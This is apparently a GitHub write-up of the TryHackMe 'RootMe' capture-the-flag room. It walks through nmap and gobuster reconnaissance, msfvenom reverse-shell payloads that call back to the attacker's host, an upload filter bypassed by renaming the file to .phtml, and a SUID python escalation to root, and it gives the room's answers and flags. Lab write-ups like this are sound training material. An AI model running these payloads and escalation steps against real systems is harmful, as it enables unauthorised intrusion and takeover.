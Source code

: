 ![RootMe Banner](https://assets.tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Cover.png" alt="RootMe Logo">
</p>

# RootMe

This guide contains the answer and steps necessary to get to them for the [RootMe](https://tryhackme.com/room/rrootme) room.

## Table of contents

- [Reconnaissance](#reconnaissance)
- [Getting a shell](#getting-a-shell)
- [Privilege escalation](#privilege-escalation)

### Reconnaissance

1. Scan the machine, how many ports are open?

   We use `nmap` for this with:

   ```console
   nmap -sV -sS 10.10.77.33 -p-     
   ```

   ![Recon Nmap](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Recon_Nmap.png)

   ><details><summary>Click for answer</summary>2</details>

2. What version of Apache is running?

   The Apache version can be seen from the scan. Otherwise add the `-sV` argument.

   ><details><summary>Click for answer</summary>2.4.29</details>

3. What service is running on port 22?

   This can also be found from the scan when using `-sV`.

   ><details><summary>Click for answer</summary>ssh</details>

4. Find directories on the web server using the GoBuster tool.

5. What is the hidden directory?

   Finding hidden directories, can be done with the following command:

   ```console
   gobuster dir -u 10.10.77.33:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
   ```

   ![Recon Directory](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Recon_Directory.png)

   One of these is not a standard folder for a webserver.

   ><details><summary>Click for answer</summary>/panel/</details>

### Getting a shell

1. user.txt

   The first to do is create a reverse shell payload. My first attempt was to use `msfvenom` to create a linux reverse tcp shell and output it as an `.elf` file.

   ```console
   msfvenom -p  linux/x64/meterpreter/reverse_tcp LHOST=10.10.82.70 LPORT=1337 -f elf -o letmein.elf
   ```

   ![Shell Payload](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Shell_Payload.png)

   This can now be uploaded to the webserver.

   ![Shell Upload](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Shell_Upload.png)

   Unfortunately, I did not get a connection as the files was simply downloaded. We need to try a different format. Php is another usefull format for a reverse shell.

   ```console
   msfvenom -p php/reverse_php LHOST=10.10.82.70 LPORT=1337 -f raw > letmein.php
   ```

   ![Shell Payload Php](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Shell_Payload_Php.png)

   ![Shell Upload Php Fail](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Shell_Upload_Php_Fail.png)

   The server doesn't let us upload a `.php` file. This might be bypassed by renaming the file extension. Simply renaming to `.jpg.php` did not work in this case, but `.phtml` did.

   ```console
   mv letmein.php letmein.phtml 
   ```

   ![Shell Upload Php Rename](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Shell_Upload_Php_Rename.png)

   ![Shell Upload Php Success](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Shell_Upload_Php_Success.png)

   Now that it is uploaded we start our listener again and click on the file we uploaded in the `/uploads/` directory.

   ```console
   nc -nlvp 1337
   ```

   ![Shell Directory](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Shell_Directory.png)

   Although the shell is connecting to our machine, it never seems to be fully established. So another method is in order. A pre-made php reverse shell can be obtained from 'pentestmonkey' on [github](https://github.com/pentestmonkey/php-reverse-shell/raw/master/php-reverse-shell.php).

   ![Shell Php Script](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Shell_Php_Script.png)

   We only need to add our own IP and port to listen on.

   ![Shell Php Script Edit](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Shell_Php_Script_Edit.png)

   Save this file with the `phtml` extension en upload to the server. Setup the listener on port 1337 and execute the file from the `/uploads` page.

   ![Shell Connection](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Shell_Connection.png)

   Success!

   Now we can search for the file `user.txt` and open it to get our flag.

   ```console
   find / -name user.txt 2>/dev/null
   ```

   ![Shell Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Shell_Flag.png)

   ><details><summary>Click for answer</summary>THM{y0u_g0t_a_sh3ll}</details>

### Privilege escalation

1. Search for files with SUID permission, which file is weird?

   Using: `find / -perm -4000 2>/dev/null` we can search for any binaries with their SUID bit set.

   ![Priv SUID](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Priv_SUID.png)

   ><details><summary>Click for answer</summary>/usr/bin/python</details>

2. Find a form to escalate your privileges.

3. root.txt

   After we identify the outlier, we can go to the GTFO bins website to find out how we can abuse this specific binary.

   ![Priv Gtfo](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Priv_Gtfo.png)

   We need to add the path to the python binary on this machine to the command. Then we can simply run it in our shell.

   ```console
   /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
   ```

   ![Priv Escalation](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Priv_Escalation.png)

   We got root access!

   Now lets search for the root flag.

   ```console
   find /root -name root.txt 2>/dev/null
   ```

   ![Priv Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/rrootme/Rootme_Priv_Root_Flag.png)

   ><details><summary>Click for answer</summary>THM{pr1v1l3g3_3sc4l4t10n}</details>
